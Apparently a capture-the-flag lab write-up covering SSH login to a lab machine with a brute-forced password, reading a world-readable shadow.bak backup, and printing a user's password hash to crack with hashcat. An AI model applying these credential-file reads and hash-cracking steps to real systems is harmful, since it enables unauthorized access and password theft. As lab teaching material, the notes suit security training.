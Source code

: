 With the credentials you got bruteforcing with Hydra connect via SSH.

`ssh lily@10.10.199.94`
Password: `Mr.$un$hin3`

![[SSH connection-20240719135013694.webp]]
## Enumerate the directories

If you enumerate the directories you'll find /var/backups.

`lily@cherryblossom:/var/backups$ ls -l`

![[SSH connection-20240719135650868.webp]]

You can see the **shadow.bak** file is readable.

`lily@cherryblossom:/var/backups$ cat shadow.bak` 
...
![[SSH connection-20240719135956926.webp]]
...

johan:**\$6\$zV7zbU1b$FomT/aM2UMXqNnqspi57K/hHBG8DkyACiV6ykYmxsZG.vLALyf7kjsqYjwW391j1bue2/.SVm91uno5DUX7ob0**:18301:0:99999:7:::

**Relevant Fields**: The shadow file has lines in the format:
> username:password_hash:last_change:min:max:warn:inactive:expire

There's an user **johan**.

Don’t waste your time with the root hash — you won’t be cracking it anytime in the near future. Johan’s password, on the other hand, is perfectly crackable.

**Next step:** [[Cracking Johan's hash with hashcat]]

